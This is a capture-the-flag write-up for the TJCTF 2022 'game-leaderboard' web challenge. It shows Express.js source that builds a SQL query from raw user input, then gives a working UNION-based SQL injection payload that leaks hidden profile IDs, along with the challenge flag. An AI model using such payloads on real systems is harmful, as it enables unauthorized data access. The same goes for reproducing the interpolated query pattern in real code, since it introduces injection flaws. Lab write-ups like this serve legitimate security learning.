 ```yaml
---
title:  "TJCTF 2022 -- web/game-leaderboard"
date:   2022-05-17 03:00:00 -0400
categories: TJCTF2022 web
tags: TJCTF2022 web SQLi
# classes: wide
---
```

A leaderboard with a filter input. What could go wrong?

# Prompt
![Challenge Prompt][img-prompt]

# Challenge
To start off the web challenges, we get a link to [game-leaderboard.tjc.tf][challenge-link], where we're shown a leaderboard table with a input box for filtering scores:

![Leaderboard][img-page]

Immediately, I knew it was likely an SQL injection. I'm guessing the data is pulled from some database based on the filter that is submitted from the user.

We're also provided the [index.js][src-index], for which the contents are shown below:

```js
const express = require('express')
const cookieParser = require('cookie-parser')
const fs = require('fs')
const app = express()

app.use(cookieParser())

app.set('view engine', 'ejs')
app.use(express.static(`${__dirname}/public`))
app.use(express.urlencoded({ extended: false }))

const db = require('./db')

const FLAG = fs.readFileSync(`${__dirname}/flag.txt`).toString().trim()

const getLeaderboard = (minScore) => {
    const where = (typeof minScore !== 'undefined' && minScore !== '') ? ` WHERE score > ${minScore}` : ''
    const query = `SELECT profile_id, name, score FROM leaderboard${where} ORDER BY score DESC`
    const stmt = db.prepare(query)

    const leaderboard = []
    for (const row of stmt.iterate()) {
        if (leaderboard.length === 0) {
            leaderboard.push({ rank: 1, ...row })
            continue
        }
        const last = leaderboard[leaderboard.length - 1]
        const rank = (row.score == last.score) ? last.rank : last.rank + 1
        leaderboard.push({ rank, ...row })
    }

    return leaderboard
}

app.get('/', (req, res) => {
    const leaderboard = getLeaderboard()
    return res.render('leaderboard', { leaderboard })
})

app.post('/', (req, res) => {
    const leaderboard = getLeaderboard(req.body.filter)
    return res.render('leaderboard', { leaderboard })
})

app.get('/user/:userID', (req, res) => {
    const leaderboard = getLeaderboard()
    const total = leaderboard.length

    const profile = leaderboard.find(x => x.profile_id == req.params.userID)
    if (typeof profile === 'undefined') {
        return res.render('user_info', { notFound: true })
    }

    const flag = (profile.rank === 1) ? FLAG : 'This is reserved for winners only!'
    return res.render('user_info', { total, flag, ...profile })
})

app.listen(3000, () => {
    console.log('server started')
})
```

## Problem Description
After reading through the file, it seems like the flag is read from a file. It can only be viewed from the `GET /user/:userID` endpoint where the `userID` parameter is the id of the team ranking #1.

The SQL query fetches the fields `profile_id`, `name`, and `score`, but in the leaderboard, the profile ID is not shown. We need to find that somehow.

## Exploitation
The very first thing I did was to see if it was vulnerable to SQL injection attacks.

I tried applying the filter of `'`, a single quote. The application did not allow this, but using Firefox's network tab in the developer tools or Burp suite, I was able to change the query to `'`. The response was a `500 Internal Server Error`.

Then I took a look at the source again and saw how they were building the query. The code was formatting the input string directly into the query.

The query was put together with the query below where `${minScore}` is replaced by the input we submit.

```sql
SELECT profile_id, name, score FROM leaderboard WHERE score > ${minScore} ORDER BY score DESC
```

This is damn vulnerable to SQLi. I then tried submitting `0 or 1`, which should result in the query below and return all the entries in the table.

```sql
SELECT profile_id, name, score FROM leaderboard WHERE score > 0 or 1 ORDER BY score DESC
```

The above query worked and returned all of the entries, including the ones with negative scores.

Now, how do we get the leaderboard to show us the `profile_id` column? If I had control of the entire query, I would've just done something like:

```sql
select profile_id, profile_id AS name, score FROM leaderboard ORDER BY score DESC
```

But we only have control of the query after the `WHERE` in the original query. I used a `UNION` to append entries another query result where the `name` column, which gets displayed, contains the `profile_id`.

## Solution
The input I gave was `0 AND 0 UNION SELECT profile_id, profile_id as name, score FROM leaderboard`, which should result in the query below, which puts the `profile_id` values in the `name` column instead.

```sql
SELECT profile_id, name, score FROM leaderboard WHERE score > 0 AND 0 UNION SELECT profile_id, profile_id as name, score FROM leaderboard ORDER BY score DESC
```

![Leaderboard shows profile_id instead of name][img-ids]

Now, if we go the the user page with the user ID (/user/ed38f25b3f962336), we get the flag.

![User page with flag displayed][img-flag]

## Flag
The flag is: `tjctf{h3llo_w1nn3r_0r_4re_y0u?}`

[img-prompt]: /assets/img/tjctf2022/game-leaderboard/0-prompt.png
[challenge-link]: https://game-leaderboard.tjc.tf
[img-page]: /assets/img/tjctf2022/game-leaderboard/1-page.png
[src-index]: /assets/data/tjctf2022/game-leaderboard/index.js
[img-ids]: /assets/img/tjctf2022/game-leaderboard/2-ids.png
[img-flag]: /assets/img/tjctf2022/game-leaderboard/3-flag.png
